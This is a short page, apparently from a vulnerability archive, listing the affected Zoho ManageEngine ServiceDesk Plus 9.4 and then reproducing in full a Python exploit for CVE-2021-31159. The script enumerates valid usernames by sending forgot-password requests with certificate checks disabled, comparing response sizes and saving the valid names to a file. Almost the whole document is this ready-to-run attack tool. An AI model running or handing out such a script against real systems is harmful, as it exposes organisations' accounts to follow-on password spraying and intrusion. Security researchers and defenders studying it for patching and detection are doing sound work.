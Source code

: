 <languages />

漏洞影响
--------

Zoho ManageEngine ServiceDesk Plus 9.4

EXP
---

    # Exploit Title: Zoho ManageEngine ServiceDesk Plus MSP 9.4 - User Enumeration
    # Date: 17/06/2021
    # Exploit Author: Ricardo Ruiz (@ricardojoserf)
    # CVE: CVE-2021-31159 (https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-31159)
    # Vendor Homepage: https://www.manageengine.com
    # Vendor Confirmation: https://www.manageengine.com/products/service-desk-msp/readme.html#10519
    # Version: Previous to build 10519
    # Tested on: Zoho ManageEngine ServiceDesk Plus 9.4
    # Example: python3 exploit.py -t http://example.com/ -d DOMAIN -u USERSFILE [-o OUTPUTFILE]
    # Repository (for updates and fixing bugs): https://github.com/ricardojoserf/CVE-2021-31159

    import argparse
    import requests
    import urllib3
    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


    def get_args():
        parser = argparse.ArgumentParser()
        parser.add_argument('-d', '--domain', required=True, action='store', help='Domain to attack')
        parser.add_argument('-t', '--target', required=True, action='store', help='Target Url to attack')
        parser.add_argument('-u', '--usersfile', required=True, action='store', help='Users file')
        parser.add_argument('-o', '--outputfile', required=False, default="listed_users.txt", action='store', help='Output file')
        my_args = parser.parse_args()
        return my_args


    def main():
        args = get_args()
        url = args.target
        domain = args.domain
        usersfile = args.usersfile
        outputfile = args.outputfile

        s = requests.session()
        s.get(url)
        resp_incorrect = s.get(url+"/ForgotPassword.sd?userName="+"nonexistentuserforsure"+"&dname="+domain, verify = False)
        incorrect_size = len(resp_incorrect.content)
        print("Incorrect size: %s"%(incorrect_size))

        correct_users = []
        users = open(usersfile).read().splitlines()
        for u in users:
                resp = s.get(url+"/ForgotPassword.sd?userName="+u+"&dname="+domain, verify = False)
                valid = (len(resp.content) != incorrect_size)
                if valid:
                    correct_users.append(u)
                print("User: %s Response size: %s (correct: %s)"%(u, len(resp.content),str(valid)))

        print("\nCorrect users\n")
        with open(outputfile, 'w') as f:
            for user in correct_users:
                f.write("%s\n" % user)
                print("- %s"%(user))

        print("\nResults stored in %s\n"%(outputfile))


    if __name__ == "__main__":
        main()